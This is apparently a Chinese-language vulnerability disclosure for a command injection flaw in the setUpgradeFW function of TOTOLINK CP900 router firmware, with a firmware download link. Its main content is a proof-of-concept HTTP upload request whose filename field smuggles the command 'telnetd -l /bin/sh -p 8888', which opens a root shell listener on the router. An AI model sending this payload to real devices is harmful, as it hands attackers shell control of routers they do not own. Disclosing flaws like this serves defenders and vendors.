

# TOTOLINK 命令注入漏洞

品牌: TOTOLINK

产品型号: CP900

固件版本: TOTOLINK_C8B810C-1A_CP900_CP0016_QCA9531_SPI_16M128M_V6.3c.566_B20171026_ALL.web

下载链接: http://www.totolink.cn/data/upload/20210720/5bee10397c082b0419cbad3eb7d1bd97.zip

## 漏洞细节

Totolink  CPE CP900  V6.3c.566_B20171026 存在命令注入漏洞在setUpgradeFW 函数中，filename参数未作过滤。该漏洞允许攻击者通过精心编制的请求执行任意命令。

 

## POC

 ```http
 POST /cgi-bin/cstecgi.cgi?action=upload&setting/setUpgradeFW HTTP/1.1
 Host: 192.168.0.254
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: multipart/form-data; boundary=---------------------------331951820841881804292816452126
 Content-Length: 11321327
 Origin: http://192.168.0.254
 Connection: close
 Referer: http://192.168.0.254/adm/upload_firmware.asp?timestamp=1648443428280
 Cookie: SESSION_ID=2:1648443350:2
 Upgrade-Insecure-Requests: 1
 
 -----------------------------331951820841881804292816452126
 Content-Disposition: form-data; name="filename"; filename="1.bin;telnetd -l /bin/sh -p 8888;touch"
 Content-Type: application/octet-stream
 
 ....
 
 ```
